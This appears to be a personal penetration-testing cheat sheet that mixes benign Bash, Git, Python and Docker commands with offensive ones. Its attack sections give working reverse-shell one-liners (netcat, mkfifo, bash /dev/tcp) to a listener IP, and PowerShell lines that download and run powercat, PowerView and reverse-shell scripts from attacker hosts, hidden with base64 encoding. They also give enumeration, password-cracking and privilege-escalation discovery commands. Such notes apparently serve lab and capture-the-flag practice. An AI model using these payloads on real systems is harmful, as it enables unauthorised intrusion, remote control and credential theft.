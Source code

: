 # Commands

## vi (setup)

```sh
cat /etc/vim/vimrc.local 
set paste
set cursorline
set number
```

## Bash

```sh
ctrl-r: search through command history, right arrow key to put match on the command line, repeat ctrl-r to cycle through more results 
ctrl-w: delete the last word
ctrl-u: delete the content from current cursor back to the start of the line
ctrl-k: kill to the end of the line 
ctrl-a: move cursor to beginning of line  
ctrl-e: move cursor to end of line 
ctrl-l: clear the screen. 
ctrl-<arrow-keys>: move by word
```

## Git

```sh
git branch -a
git checkout master
git pull
git checkout -b <New_branch_name>
git push origin <new_branch_name_you_created>
```

## DNS enumeration

```sh
# subdomain brute force
dnsenum --threads 64 --dnsserver 10.11.12.13 -f SecLists/Discovery/DNS/subdomains-top1million-5000.txt youdomain.com
# DNS zone transfer
dig axfr yourdomain.com @10.11.12.13
```

## Port Enumeration 

```sh
sudo masscan -p1-65535 10.10.10.77 --rate=1000 -e tun0 > ports
ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')
sudo nmap -Pn -sV -sC -p$ports 10.10.10.77 -oA nmap
```
### Using proxychains

```sh
sudo proxychains nmap -sT -p22 -n 192.168.1.0/24
```


## Generate Wordlist for hashcat or john

<https://github.com/stealthsploit/Optimised-hashcat-Rule>

```sh
echo "Summer2021" | hashcat -r OneRuleToRuleThemAll.rule --stdout > wordlist.txt
# John
john --wordlist=wordlist.txt hash.txt
# hashcat
hashcat -m <format_id> hash.txt wordlist.txt --force # foramt_id, e.g. 18200, see link below
```
<https://hashcat.net/wiki/doku.php?id=example_hashes>

## Web

```sh
gobuster dir -w /usr/share/wordlists/dirb/common.txt -l -t 30 -e -k -x .html,.php -u http://192.168.1.159:80 -o gob_common_80.txt
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -l -t 30 -e -k -x .html,.php -u http://192.168.1.159:80 -o go_medium_80.txt

# fuzz host header
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.15/ -H "Host: FUZZ.example.com" -mc 200 -c

nikto -host 192.168.1.159:8080 | tee -a nikto_192.168.1.159_8080.txt
```

## Find

```sh
find / -perm -4000 2> /dev/null
grep -iR "pass" * | more
```

## PYTHON

```sh
mkdir environment
cd environment

python3 -m venv my_env
source my_env/bin/activate

# Alternative:

virtualenv my_env
source my_env/bin/activate
```

## tcpdump
```sh
# to verify that your machine gets ping'ed (e.g. by your malicious remote "ping" command)
sudo tcpdump ip proto \\icmp -i tun0
```
## Reverse shells

```sh
# Works most of the time, useful when nc has no -e option
/bin/rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 8621 >/tmp/f
# Depends on the netcat version (some do not have -e)
nc -e /bin/sh 10.10.14.5 8621
# Try it, depends on bash
bash -i >& /dev/tcp/10.10.14.5/8621 0>&1
```

## Socat

```sh
# Tunnel a connection from a local TCP port to a remote service

socat -v tcp4-listen:8000,reuseaddr,fork tcp4:10.10.12.15:80 
```

## Powershell

### Encoded commands

```powershell
$command="ls"
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command))
powershell.exe -encoded $Encoded
```
Reverse Shell

```powershell
$command={IEX(New-Object System.Net.WebClient).DownloadString('http://10.13.14.3:9000/powercat.ps1'); powercat -c 10.13.14.3 -p 1234 -e cmd}
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command))

$command = 'IEX (New-Object Net.WebClient).DownloadString("http://10.13.14.3:9000/Invoke-PowerShellTcpRun.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
```

Port Scanning

```powershell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("localhost", $_)) "Port $_ is open!")) 2>$null
```

Downloading

```powershell
$url="http://10.10.14.13:9000/SharpHound.exe"
$output="C:\Windows\System32\spool\drivers\color\SharpHound.exe"
(New-object system.net.webclient).downloadfile($url,$output)

(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.13:9000/PowerUp.ps1", "C:\Windows\System32\spool\drivers\color\PowerUp.ps1")
```

Reflective Downloading

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.7:9000/PowerView.ps1')
```

Size of Folder

```powershell
"{0} MB" -f ((Get-ChildItem C:\users\ -Recurse -force | Measure-Object -Property Length -Sum -ErrorAction Stop).Sum / 1MB)
```

Compress

```powershell
Compress-Archive -LiteralPath <PathToFolder> -DestinationPath <PathToDestination>
```
Find Files

```powershell
gci -force -recurse -file -ea silentlycontinue  

Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -force -ErrorAction SilentlyContinue

FindDate=Get-Date -Year 2016 -Month 06 -Day 24
Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -ge $FindDate }
Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -ge $FindDate -and $_.LastWriteTime -le $Finddate.adddays(1) }
```
## Docker
 
```sh
docker pull nginx:1.19.4-alpine
docker images
docker run --name my-nginx -d -p 9080:80 nginx:1.19.4-alpine # -d: detached mode
docker logs -f my-nginx # -f: like tail -f, follow the log
docker inspect my-nginx

# Having a Dockerfile

docker build -t xxx:yyy .

# Running

docker ps # running containers
docker ps -a  # also not running
docker ps -q # quite, only IDs

docker start [container]
docker stop [container]
docker restart [container]

docker kill $(docker ps -q)
docker rm $(docker ps -a -q)

docker exec -ti my-nginx /bin/sh
docker run -ti --rm --name my-ngnix nginx:1.19.4-alpine /bin/sh

# Mount folder

docker run -ti --rm --name my-ngnix -v /home/kali:/mnt nginx:1.19.4-alpine /bin/sh 

# Dangling images

docker images --filter "dangling=true"
docker rmi $(docker images -q --filter "dangling=true")

docker system prune -a

# History
docker history nginx:1.19.4-alpine
```

## Useful links

<https://github.com/swisskyrepo/PayloadsAllTheThings>

<https://book.hacktricks.xyz/>

<https://gtfobins.github.io/>

<https://github.com/LOLBAS-Project/LOLBAS/blob/master/README.md>

<https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf>

